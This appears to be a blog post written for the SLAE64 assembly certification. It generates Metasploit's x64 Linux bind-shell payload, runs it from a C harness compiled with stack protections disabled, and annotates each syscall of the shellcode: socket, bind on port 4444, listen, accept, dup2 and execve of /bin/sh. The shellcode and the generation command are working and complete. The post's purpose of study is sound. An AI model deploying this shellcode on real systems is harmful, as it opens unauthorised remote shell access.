# Bind Shell

The next payload is the shell_bind_tcp payload which listens on a specified socket and spawns a shell upon a received connection.

```
msfvenom -p linux/x64/shell_bind_tcp lport=4444 -f c
```

Placed the shellcode into a C program for testing
```
unsigned char shellcode[] =
"\x6a\x29\x58\x99\x6a\x02\x5f\x6a\x01\x5e\x0f\x05\x48\x97\x52"
"\xc7\x04\x24\x02\x00\x11\x5c\x48\x89\xe6\x6a\x10\x5a\x6a\x31"
"\x58\x0f\x05\x6a\x32\x58\x0f\x05\x48\x31\xf6\x6a\x2b\x58\x0f"
"\x05\x48\x97\x6a\x03\x5e\x48\xff\xce\x6a\x21\x58\x0f\x05\x75"
"\xf6\x6a\x3b\x58\x99\x48\xbb\x2f\x62\x69\x6e\x2f\x73\x68\x00"
"\x53\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05";

(*(void(*)()) shellcode)();

```

Compiled as usual:
```
 gcc -m64 -z execstack -fno-stack-protector Test.c -o Test -no-pie
```

# Analysis

1. Create a socket

    ```
    push   0x29  ; sys_socket
    pop    rax
    cdq    ; Clear rdx
    push   0x2 ; AF_INET
    pop    rdi
    push   0x1 ; SOCK_STREAM
    pop    rsi
    syscall
    xchg   rdi,rax ; save rax in rdi
    ```

2.  Create a struct_sockaddr = sockaddr = {AF_INET; PORT; 0x0; 0x0} and bind the created socket

    ```
    push   rdx
    mov    DWORD PTR [rsp],0x5c110002 ; put port and AF_INET in the struct
    mov    rsi,rsp ; rsi points to the struct
    push   0x10 ; Size of the struct
    pop    rdx ; rdx now contains the size of the struct

    ; Bind
    push   0x31 ; SYS_BIND
    pop    rax
    syscall
    ```

3. Put the socket in listening mode

    ```
    push   0x32 ; SYS_LISTEN
    pop    rax
    syscall
    ```

4. Accept

    ```
    xor    rsi,rsi
    push   0x2b ; SYS_ACCEPT
    pop    rax
    syscall
    xchg   rdi,rax ; put the new socket in rdi
    ```


5. Dup2-loop to duplicate the file descriptors (stdin, stdout, stderr)

    ```
    push   0x3
    pop    rsi
    dec    rsi ; start with stderr (2)
    push   0x21 ; dup2 syscall
    pop    rax
    syscall

    loop:
        dec    rsi
        push   0x21 ; dup2
        pop    rax
        syscall
        jne    loop

    ```

6. Execve('/bin/sh', ['/bin/sh'], 0);

    ```
    push   0x3b ; execve syscall number
    pop    rax
    cdq  ; clear rdx
    movabs rbx,0x68732f6e69622f ; /bin/sh in hex
    push   rbx
    mov    rdi,rsp ; rdi points to /bin/sh on the stack
    push   rdx ; put null on the stack
    push   rdx
    push   rdi
    mov    rsi,rsp ; rsi points to a pointer to /bin/sh to work as (argv **)
    syscall

    ```
This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification.

http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert

Student ID: SLAE64-1581
